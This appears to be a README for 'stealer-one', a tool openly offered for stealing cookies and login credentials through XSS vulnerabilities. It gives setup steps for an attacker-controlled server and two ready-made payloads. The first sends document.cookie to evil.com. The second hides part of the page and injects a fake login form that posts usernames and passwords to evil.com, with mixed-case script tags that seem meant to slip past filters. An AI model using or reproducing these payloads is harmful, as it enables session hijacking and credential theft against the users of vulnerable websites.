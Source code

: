 # stealer-one
Cookie, user  and password stelear for XSS

To steal cookies - user and password 

XSS vulnerabilities


SETUP:
Upload c.php and admin.php to you evil web server.

Protect admin.php via .htaccess

USAGE EXAMPLE:

Example for cookies:
Payload
<script>location.href='http://evil.com/c.php?c='+escape(document.cookie)</script> 

Example for user/password:
<sCriPt>
document.getElementsByName('XSS')[0].style.display = "none";
var div = document.createElement('div');
div.className = 'vulnerable_code_area';
div.innerHTML = '<form name="evil" action="http://evil.com/c/c.php" method="GET"><p>User login:<br/><br/><label><b>Username: </b></label><input type="text" placeholder="Enter user name" name="uname" required><br/><label><b>Password:  </b></label><input type="password" placeholder="Enter Password" name="psw" required><br/><br/><button type="submit">Login</button></p></form>';
document.getElementsByClassName('vulnerable_code_area')[0].appendChild(div);
</sCriPt>
